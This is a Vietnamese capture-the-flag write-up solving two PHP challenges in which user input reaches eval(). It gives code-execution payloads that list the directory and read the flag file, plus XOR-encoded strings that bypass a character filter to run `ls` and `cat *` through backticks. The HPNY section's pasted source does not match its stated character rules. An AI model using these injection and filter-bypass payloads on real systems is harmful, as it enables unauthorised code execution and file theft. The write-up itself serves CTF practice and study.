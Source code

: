 # WEB
## HPNY
- Link tham khảo: https://tsublogs.wordpress.com/2018/12/13/wargame-code-breaking-com-solution/
- Source code:
```
 <!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
} 
```
- Đề bài chỉ cho phép sử dụng các kí tự từ 'a' đến 'z', '(', ')', '_' và '.'
- Do phần nội dung được nhập vào được thực thi bởi `eval()` nên có thể bị dính lỗi dạng code/command execution.
- Thử với `system(ls)`:
![system(ls)](./images/Selection_001.png)

- Thay vì sử dụng command execution, ta có thể sử dụng dạng code execution: `print_r(scandir(getcwd()))`
![scandir(getcwd())](./images/Selection_002.png)

- Lấy tên file flag: `print_r(next(array_reverse(scandir(getcwd()))))`
![get flag's filename](./images/Selection_003.png)

- Đọc nội dung flag: `readfile(next(array_reverse(scandir(getcwd()))))`
![flag](./images/Selection_004.png)

## super_calc
- Link tham khảo: https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- Source code:
```
<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"]))
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

- Đề bài chỉ cho phép sử dụng tập kí tự `['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '+', '-', '*', '/', '(', ')', "'", '.', '~', '^', '|', '&']`
- Có thể sử dụng system() hoặc dấu backtick để thực thi các lệnh hệ thống.
 - Liệt kê các file hệ thống (`` `ls` ``): `'0840'^'.*9.'^'~~~~'`
 - Đọc file (`` `cat *` ``): `'0000000'^'.--880.'^'~~||(*~'`
